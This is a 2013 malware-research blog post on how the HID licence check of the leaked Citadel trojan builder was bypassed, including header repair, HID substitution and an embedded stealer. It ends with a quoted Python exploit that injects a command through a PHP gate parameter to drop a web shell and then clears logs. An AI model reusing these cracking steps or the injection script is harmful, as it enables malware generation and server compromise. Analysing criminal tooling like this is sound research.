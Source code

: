 ```yaml
---
title: "How the protection of Citadel got cracked"
date: Tue, 31 Dec 2013 13:28:00 +0000
draft: false
type: posts
categories: 
- [object Object],[object Object],[object Object],[object Object],[object Object],[object Object],[object Object],[object Object],[object Object],[object Object]
---
```

# How the protection of Citadel got cracked

<br/>

<br/>
Recently on a forum someone requested cbcs.exe (Citadel Backconnect Server)  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgyYb2AuY7UJRqX5XJ7vzyJ-unafw2IhZUx3TIBKqAaCqctzWCS22mggcaB_DLCssPWnhXIiuatBZq6gyiYVScMkS9krtoG0byang2YSSLtVFauWcgJ1y64l8B7RUCuY9fXYwXbCUoNbGg/s400/29-12-2013+17-51-47.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgyYb2AuY7UJRqX5XJ7vzyJ-unafw2IhZUx3TIBKqAaCqctzWCS22mggcaB_DLCssPWnhXIiuatBZq6gyiYVScMkS9krtoG0byang2YSSLtVFauWcgJ1y64l8B7RUCuY9fXYwXbCUoNbGg/s1600/29-12-2013+17-51-47.png)

If you want to read more about the Backconnect on Citadel, the link that g4m372 shared is cool: [http://laboratoriomalware.blogspot.de/2012/12/troyan-citadel-backconnect-windows.html](http://laboratoriomalware.blogspot.de/2012/12/troyan-citadel-backconnect-windows.html)  
  
I've searched this file thought downloading a random mirror of the Citadel leaked package in hope to find it inside.  

Finally the file wasn't on the leaked archive but was already grabbed by various malware trackers.  
MD5: [50A59E805EEB228D44F6C08E4B786D1E](http://vxvault.siri-urz.net/ViriList.php?MD5=50a59e805eeb228d44f6c08e4b786d1e)  
Malwarebytes: Backdoor.Citadel.BkCnct  
  
And since i've downloaded the leaked Citadel package... let's see about the Builder.  
It can be interesting to make a post about it.  
  
Citadel.exe: a33fb3c7884050642202e39cd7f177e0  
Malwarebytes: Hacktool.Citadel.Builder  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj4SdNffd8_9lnaTUxWr6fllT0E65UtZ2HJMWtn-5ww1QTTGUqAqwd4t55QE2ZwHZphwIsvFoWSFwtvq_xrsk_biH3i8D81Z_ceeywEsK51W-xGz7pLzpKUJi3xRdbEJZHS68p0Rdz-SWg/s400/29-12-2013+18-08-59.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj4SdNffd8_9lnaTUxWr6fllT0E65UtZ2HJMWtn-5ww1QTTGUqAqwd4t55QE2ZwHZphwIsvFoWSFwtvq_xrsk_biH3i8D81Z_ceeywEsK51W-xGz7pLzpKUJi3xRdbEJZHS68p0Rdz-SWg/s1600/29-12-2013+18-08-59.png)

"ERROR: Builder has been moved to another PC or virtual environment, now it is deactivated."  
  
This file is packed with UPX:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiOxZwxHcO3GcmdaJ5YPLDJCbdNA8JiXYBTUd7c-aYcTrhoI9cY9n1_pBBJxBGvffI19eO4hgWcoAuCEA-yk0qZ_eCYfSIlQ2wWBckPORczowJMHdxCARPJGEDysn1257gH4u4Raucogac/s400/23-12-2013+00-56-02.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiOxZwxHcO3GcmdaJ5YPLDJCbdNA8JiXYBTUd7c-aYcTrhoI9cY9n1_pBBJxBGvffI19eO4hgWcoAuCEA-yk0qZ_eCYfSIlQ2wWBckPORczowJMHdxCARPJGEDysn1257gH4u4Raucogac/s1600/23-12-2013+00-56-02.png)

  
Same for the Citadel Backconnect Server and the Hardware ID generator.  
But when we try to unpack it via UPX we have an exception:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh_oD2f3-JpH2q9u1WsFogxTvWigrCDzGszVYZ7apckh9b-K6UlquAhwFrW0xBge3ExsGrbDsRuLAJzZKIogShNQCSU5KTV0XcFzps_HPeWmGW2vNPPPpcQtCBDHJZro_S1ppJb8tLPs3o/s400/29-12-2013+18-11-37.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh_oD2f3-JpH2q9u1WsFogxTvWigrCDzGszVYZ7apckh9b-K6UlquAhwFrW0xBge3ExsGrbDsRuLAJzZKIogShNQCSU5KTV0XcFzps_HPeWmGW2vNPPPpcQtCBDHJZro_S1ppJb8tLPs3o/s1600/29-12-2013+18-11-37.png)

  
UPX told us that there is something wrong with the file header, aquabox used a lame trick.  
With an hexadecimal editor we can clearly see that there is a problem with the DOS Header:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjomAmmijYZlZYYxprcGwIdfx1SIEvR0wzNeeOZDUWo0-pJY8HWh31Xu7a_E1OcehXoC7SVBvSOz9B8DClhwAvVZbVN4mQGE2UWXfJh8H4UikElSG5i59OzO8Gf8EnMdn9-6MUEUIUR9r4/s400/29-12-2013+18-14-36.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjomAmmijYZlZYYxprcGwIdfx1SIEvR0wzNeeOZDUWo0-pJY8HWh31Xu7a_E1OcehXoC7SVBvSOz9B8DClhwAvVZbVN4mQGE2UWXfJh8H4UikElSG5i59OzO8Gf8EnMdn9-6MUEUIUR9r4/s1600/29-12-2013+18-14-36.png)

  
We have 0x4D 0x5A ... 00 ... and a size of 0xE8 for the memory.  
[e\_lfanew](http://pe101.corkami.com/) is null, so let's fix it at 18h by 0x40  
Miracle:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgXJV0syMrng48Ei_M9BDH3rGbGA87Crz8M1Y1-gNkBWqzSK3XISQ_FlTXJzuGO_VbbMup5pY_hc0Bwke1dfHPBQ16HELw0Sc0YCChEv3NbptuPy4v0q3kpsaQEKy_7xGsa2uJJQ7oA6as/s400/29-12-2013+18-23-57.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgXJV0syMrng48Ei_M9BDH3rGbGA87Crz8M1Y1-gNkBWqzSK3XISQ_FlTXJzuGO_VbbMup5pY_hc0Bwke1dfHPBQ16HELw0Sc0YCChEv3NbptuPy4v0q3kpsaQEKy_7xGsa2uJJQ7oA6as/s1600/29-12-2013+18-23-57.png)

  
Same tricks for the Hardware ID Calculator and the Citadel Backconnect Server, i will get back on these two files later.  
Now that we have a clear code we can know the Time/Date Stamp, view the ressources, but more interesting: see how Citadel is protected  
  
Viewing the strings already give us a good insight:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg10TU-4uHcdzXNkwRIM6zGy_WB3aOchb1Wv0P1Bj-EwTVJ2H3E_jnZMUjyg4wIP-kdYVSb6ipJS_Tr_dQaFxb1JnJyZbONUKFmWnN1IkqRDRT2EmLpyhEWoMaO6sctAMKTWkqDhPxgaWQ/s400/29-12-2013+18-29-14.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg10TU-4uHcdzXNkwRIM6zGy_WB3aOchb1Wv0P1Bj-EwTVJ2H3E_jnZMUjyg4wIP-kdYVSb6ipJS_Tr_dQaFxb1JnJyZbONUKFmWnN1IkqRDRT2EmLpyhEWoMaO6sctAMKTWkqDhPxgaWQ/s1600/29-12-2013+18-29-14.png)

PHYSICALDRIVE0, Win32\_BIOS, Win32\_Processor, SerialNumber...  
  
But we don't even really need to waste time trying to know how the generation is made.  
Although you can put a breakpoint at the beginning of the calculation procedure (0x4013F2)  
At the end, you will be here, this routine will finalise your HID:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEirU5rcuoDpaazLKZEeUMCgc2xssokCF98-g0VTFnTHxj3sAy4HuSJmYpYY7fccJD4qRwcZCRdrdNcNTCHvcQISOmGu08C-exmIUw7hl-v22CzszV0wn2j2IYKT3Qby4TO-ChOVyVTxvfE/s400/29-12-2013+18-43-16.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEirU5rcuoDpaazLKZEeUMCgc2xssokCF98-g0VTFnTHxj3sAy4HuSJmYpYY7fccJD4qRwcZCRdrdNcNTCHvcQISOmGu08C-exmIUw7hl-v22CzszV0wn2j2IYKT3Qby4TO-ChOVyVTxvfE/s1600/29-12-2013+18-43-16.png)

  
From another side, you can also have a look on the Hardware ID Calculator.  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgLPOZ4EL_WixHubhswyuWqWmdX3ijJVx4OETwxqA5kDEy04ulEUnoKn0jueVvdAaC3gd2hGoslGrNvRFN4doYww_1OFkHfKejdxBDjOVBwDTgz4K1AQ5nqIoNQyYcODeHz9_fl4O-ZysM/s1600/29-12-2013+18-48-42.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgLPOZ4EL_WixHubhswyuWqWmdX3ijJVx4OETwxqA5kDEy04ulEUnoKn0jueVvdAaC3gd2hGoslGrNvRFN4doYww_1OFkHfKejdxBDjOVBwDTgz4K1AQ5nqIoNQyYcODeHz9_fl4O-ZysM/s1600/29-12-2013+18-48-42.png)

  
I've got a problem with this file, the first layer was a SFX archive:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhX0oWBI2HBDl1fYHGgKQpEBnn0EnqMiRg706uHLRiE5VGvgePZ8pCMuoi6ZyEB1Kg4JY2Nk0sh67xTOVKfROv-mmN7mgY7dTVnIgZ5NPlxKFJgoBR-J5lMZ64qRuq8I9BH0zlbd4CzjMM/s400/29-12-2013+19-02-08.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhX0oWBI2HBDl1fYHGgKQpEBnn0EnqMiRg706uHLRiE5VGvgePZ8pCMuoi6ZyEB1Kg4JY2Nk0sh67xTOVKfROv-mmN7mgY7dTVnIgZ5NPlxKFJgoBR-J5lMZ64qRuq8I9BH0zlbd4CzjMM/s1600/29-12-2013+19-02-08.png)

  
Malware embedded (stealer):  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiazy6RRxkMvCv9ptkg8D9A9uBUvbbChfFMuNlUkBy9jOU3H5Nr0wLDdp6dT-dACJQShXqEdKABmcWnKbvuEHrPOlqmmhZjbCw99z0ie7yN274RIvR6hZ-1kIPWf7Dt6Ol_XOhHkAR_Omc/s320/29-12-2013+19-04-07.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiazy6RRxkMvCv9ptkg8D9A9uBUvbbChfFMuNlUkBy9jOU3H5Nr0wLDdp6dT-dACJQShXqEdKABmcWnKbvuEHrPOlqmmhZjbCw99z0ie7yN274RIvR6hZ-1kIPWf7Dt6Ol_XOhHkAR_Omc/s1600/29-12-2013+19-04-07.png)

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgVol9s-Q7feDxPIfZmHgsMOmMmYS-RKG5URh-XVPJjDeXJXOg4gaXlslGlINsqw3g_nw2PJAjj0Ns8Q3kT6Qf_ak3xhFRDFwSgptYzaO-2t0NDPFe0s0UIX0JiK5XOqSKAQeXNufXJ17g/s400/29-12-2013+19-06-57.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgVol9s-Q7feDxPIfZmHgsMOmMmYS-RKG5URh-XVPJjDeXJXOg4gaXlslGlINsqw3g_nw2PJAjj0Ns8Q3kT6Qf_ak3xhFRDFwSgptYzaO-2t0NDPFe0s0UIX0JiK5XOqSKAQeXNufXJ17g/s1600/29-12-2013+19-06-57.png)

  
Conclusion: Don't rush on leaked stuff.  
  
Alright, now that you have extracted/unpacked the good HID Calculator you can open it in olly.  
The code is exactly the same as the one you can find on the Citadel Builder, it may help to locate the calculation procedure on the builder although it's really easy to locate it.  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjKLq5wDgygxNmRaRAQxVXpXs7CLgx4GFqidjf75PrqHSHNsS9piij5okXt-9P-nCeq_1umb1OYt_JJz2lxTllQaq8g2eKKcPc_xyE4k0TeaO6XhHoeZYmjdl_xWPn3Gg4nbXMKWURf5BQ/s400/29-12-2013+19-14-56.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjKLq5wDgygxNmRaRAQxVXpXs7CLgx4GFqidjf75PrqHSHNsS9piij5okXt-9P-nCeq_1umb1OYt_JJz2lxTllQaq8g2eKKcPc_xyE4k0TeaO6XhHoeZYmjdl_xWPn3Gg4nbXMKWURf5BQ/s1600/29-12-2013+19-14-56.png)

  
That was just a short parentheses, to get back on the builder, after that the generation end you will have multiple occasions to view your HID on the stack like here:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjPEZ8zRDcX1Kt-U-JsYXiek8KJxks8pco03dAoI1nOPtXzD7S_DaslF03xAyrf7PgA9DCqLIN9W5qxpTPt30FVlsV3L-ZK2_6BFfR9Pm-POQmo5Uqjl8bkDp9obu4jYlaDkBKJJG3_fEM/s400/29-12-2013+19-24-34.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjPEZ8zRDcX1Kt-U-JsYXiek8KJxks8pco03dAoI1nOPtXzD7S_DaslF03xAyrf7PgA9DCqLIN9W5qxpTPt30FVlsV3L-ZK2_6BFfR9Pm-POQmo5Uqjl8bkDp9obu4jYlaDkBKJJG3_fEM/s1600/29-12-2013+19-24-34.png)

And the crutial part start here.  
  
When the Citadel package of Citab got leaked ([see this article for more information](http://www.xylibox.com/2013/06/citadel-lawsuit-and-explanation-of-john.html)) an important file was also released:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgBBzZyFLEOrjIBjMq25oknUevjMYYcG9r-3nc4sUOip-qztA8Ku4tFx3VPrn-0T6fY2PQSQaESAGpPX4bJISyOyBzfDN93McGJgZegY2WmhzUEvE1MRpwlk0DBTqgqcgcWZdcQe7jECsw/s1600/29-12-2013+19-32-23.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgBBzZyFLEOrjIBjMq25oknUevjMYYcG9r-3nc4sUOip-qztA8Ku4tFx3VPrn-0T6fY2PQSQaESAGpPX4bJISyOyBzfDN93McGJgZegY2WmhzUEvE1MRpwlk0DBTqgqcgcWZdcQe7jECsw/s1600/29-12-2013+19-32-23.png)

  
The HID of the original machine who was running the builder, so you just have to replace your HID by this one, just like this:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEguJbG6EI788om3XsthnSs_VYt6UWgjSWCemTbQEZbvACufBM7LRvukR4OyRAWA7YV6VTW3khaH58m4DsvoiGB_qaQ91AjG-8vK6WI9zmgcQqjci8IN659HqJbb5c_gaH5uiAVd7laU2M0/s400/29-12-2013+19-36-14.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEguJbG6EI788om3XsthnSs_VYt6UWgjSWCemTbQEZbvACufBM7LRvukR4OyRAWA7YV6VTW3khaH58m4DsvoiGB_qaQ91AjG-8vK6WI9zmgcQqjci8IN659HqJbb5c_gaH5uiAVd7laU2M0/s1600/29-12-2013+19-36-14.png)

  
And this is how the protection of Citadel become super weak and can generate working malwares  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjzhqfUqBcjcri3Rfn-d14KhEBTXDxEmVJJgr9MJeozuiH8drPhWylBcmUo4On9Tgp77JmmLA77UUSvPWzeS7MUGIUajEceHOPVpJ6oKKuBLs_Mdt2Nc5BhxX-7PiomlB8rPVTzETodNLA/s400/29-12-2013+19-38-04.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjzhqfUqBcjcri3Rfn-d14KhEBTXDxEmVJJgr9MJeozuiH8drPhWylBcmUo4On9Tgp77JmmLA77UUSvPWzeS7MUGIUajEceHOPVpJ6oKKuBLs_Mdt2Nc5BhxX-7PiomlB8rPVTzETodNLA/s1600/29-12-2013+19-38-04.png)

Now you just have to do a codecave or inject a dll in order to modify it permanently, child game.  
  
The problem that every crackers was facing on leaked Citadel builders is to find the good HID key.  
Citadel builders who was previously leaked wasn't leaked with HID key.  
e.g: vortex1772\_second - 1.3.5.1  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg_aTk7VW_-2JNZxtGzACl_FuvgiQ9_iMw7TZoQwlAlrPzmRU0kgezJ9tNr4ZMcnKbLMNwzVLEU6YoxxvqBdnCaElPN2SlheUHsn-sw7dWbf3q3d8j0zmd0MJV9wEG8OmX_xb8K-k3EBlg/s400/dK6XvLF.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg_aTk7VW_-2JNZxtGzACl_FuvgiQ9_iMw7TZoQwlAlrPzmRU0kgezJ9tNr4ZMcnKbLMNwzVLEU6YoxxvqBdnCaElPN2SlheUHsn-sw7dWbf3q3d8j0zmd0MJV9wEG8OmX_xb8K-k3EBlg/s1600/dK6XvLF.png)

  
And you can't just 'force' the procedure to generate a bot because the Citadel stub is encrypted inside, that why when the package got leaked with the correct HID, a easy way to crack the builder appeared.  
Without having the good HID you can still bruteforce it till you break the key but this is much harder and time wasting, this solution would be also a more great achievement and respected in scene release.  
  
To finish, let's get back on the Citadel backconnect server who was requested on kernelmode.info  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhONOanrUhlqlSgTY3BUyk4BZso9xDagiCQ85eJOokRJVfuvzyzxeCg5cDqa3IH8qRand4hZ6B7NM1AZ0GRheResFu79KRKshm-Yic0X_Ye5A_byUozRk56QO9O6k8YleNBrUaSelhZKag/s400/30-12-2013+01-47-30.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhONOanrUhlqlSgTY3BUyk4BZso9xDagiCQ85eJOokRJVfuvzyzxeCg5cDqa3IH8qRand4hZ6B7NM1AZ0GRheResFu79KRKshm-Yic0X_Ye5A_byUozRk56QO9O6k8YleNBrUaSelhZKag/s1600/30-12-2013+01-47-30.png)

  
This script was also leaked with the Citab package:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhpcNtqT7SzYEKYsFT_Ph9qbsQRcW3Kfr4tH1roAXped2UNkkOgZ65BXN3mxhDJlzfsKC-ZytXpq5OgoLYn2go21iTFmi_u3rb_pElq-GGG4ciJ8eRcMzMyiTgVVHykAP3fyVmO-hiOeJE/s400/30-12-2013+01-49-29.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhpcNtqT7SzYEKYsFT_Ph9qbsQRcW3Kfr4tH1roAXped2UNkkOgZ65BXN3mxhDJlzfsKC-ZytXpq5OgoLYn2go21iTFmi_u3rb_pElq-GGG4ciJ8eRcMzMyiTgVVHykAP3fyVmO-hiOeJE/s1600/30-12-2013+01-49-29.png)

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi7VtNgg_1cQaqaTyHKRMDUgzIq1-gEN38iHJEsYn4F68FkCMD5AAOcPNcSCwT3Qyfj3zFJhAQH1wKowbbKuiMsVoDGDsMvhJlKHh_FVwELJg2LNIgcTTXUqixZLqn5vcZ1oGft5dGQ9Ns/s1600/31-12-2013+14-08-54.jpg)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi7VtNgg_1cQaqaTyHKRMDUgzIq1-gEN38iHJEsYn4F68FkCMD5AAOcPNcSCwT3Qyfj3zFJhAQH1wKowbbKuiMsVoDGDsMvhJlKHh_FVwELJg2LNIgcTTXUqixZLqn5vcZ1oGft5dGQ9Ns/s1600/31-12-2013+14-08-54.jpg)

  
It's for Windows box, and it's super secure... oh wait..  

import urllib  
import urllib2  
  
def request(url, params=None, method='GET'):  
    if method == 'POST':  
        urllib2.urlopen(url, urllib.urlencode(params)).read()  
    elif method == 'GET':  
        if params == None:  
            urllib2.urlopen(url)  
        else:  
            urllib2.urlopen(url + '?' + urllib.urlencode(params)).read()  
  
def uploadShell(url, filename, payload):  
    data = {  
        'b'  : 'tapz',  
        'p1' : 'faggot',  
        'p2' : 'hacker | echo "' + payload + '" >> ' + filename  
    }  
    request(url + 'test.php', data)  
  
def shellExists(url):  
    return urllib.urlopen(url).getcode() == 200  
     
def cleanLogs(url):  
    delete = {  
        'delete' : ''  
    }  
    request(URL + 'control.php', delete, 'POST')  
  
URL      = 'http://localhost/citadel/winserv\_php\_gate/'  
FILENAME = 'shell.php'  
PAYLOAD  = '<?php phpinfo(); ?>'  
  
uploadShell(URL, FILENAME, PAYLOAD)  
print '\[~\] Shell created!'  
if not shellExists(URL + FILENAME):  
    print '\[-\]', FILENAME, 'not found...'  
else:  
    print '\[+\] Go to:', URL + FILENAME  
cleanLogs(URL)  
print '\[~\] Logs cleaned!'

  
Brief, happy new year guys :)  
  
  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh4SnfOeR5GJCK-Bio042L1N_UC1DUlvfzi7pgPD5FqIO_WaKIFSivendBhNvQmWgrwK9pXDVvZmadu4fKiGQd4O7t31Ieu4GoG9whSAmS_NPt2PhX78Rz_tZCsdWji4wiK8FUl7PSEjK0/s400/design_temari_by_e_nat-d3cmyj3.jpg)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh4SnfOeR5GJCK-Bio042L1N_UC1DUlvfzi7pgPD5FqIO_WaKIFSivendBhNvQmWgrwK9pXDVvZmadu4fKiGQd4O7t31Ieu4GoG9whSAmS_NPt2PhX78Rz_tZCsdWji4wiK8FUl7PSEjK0/s1600/design_temari_by_e_nat-d3cmyj3.jpg)

#### [Source](https://www.xylibox.com/2013/12/how-protection-of-citadel-got-cracked.html)

<br/>
---
